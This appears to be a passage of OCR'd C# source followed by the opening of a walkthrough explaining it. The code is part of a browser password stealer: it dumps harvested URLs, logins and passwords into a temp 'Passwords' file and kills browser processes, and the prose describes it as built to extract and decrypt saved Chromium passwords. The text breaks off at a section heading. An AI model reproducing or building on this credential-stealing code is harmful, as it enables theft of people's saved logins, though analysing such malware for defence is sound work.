 ```csharp
                        {
                            File.Delete(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt);
                        }

                        foreach (StolenDataFromBrowser password in passwords)
                        {
                            content += $"URL: {password.url}\r\nLogin: {password.username}\r\nPassword: {password.password}\r\n\r\n";
                            File.WriteAllText(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt, content);
                        }
                    }
                    isFoundBrowser = $"Found {nameBrowser}!";
                }
                catch (Exception ex)
                {
                    Console.WriteLine(ex.Message + " // " + nameBrowser);
                    isFoundBrowser = ex.Message;
                }
            }

            public static void ProcessBrowserKill(string nameBrowser)
            {
                try
                {
                    Process[] processes = Process.GetProcessesByName(nameBrowser);
                    if (processes.Length > 0)
                    {
                        foreach (Process process in processes)
                        {
                            process.Kill();
                            process.WaitForExit();
                        }
                    }
                }
                catch { }
            }
        }
    }
}
```

This code defines a `ChromiumPasswords` class inside the `Browsers` namespace.

It’s built to **extract and decrypt saved passwords** from Chromium-based browsers (like Chrome, OperaGX, Edge, Vivaldi, etc.).

Let’s walk through it:

### **DecryptingBrowsersPasswords**
